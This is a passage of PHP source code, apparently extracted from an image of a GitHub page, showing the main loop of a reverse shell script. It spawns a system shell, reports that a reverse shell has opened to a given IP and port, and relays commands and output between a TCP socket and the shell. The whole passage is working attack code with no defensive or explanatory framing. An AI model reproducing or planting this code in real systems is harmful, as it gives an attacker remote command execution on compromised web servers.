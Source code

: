 ```
$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
```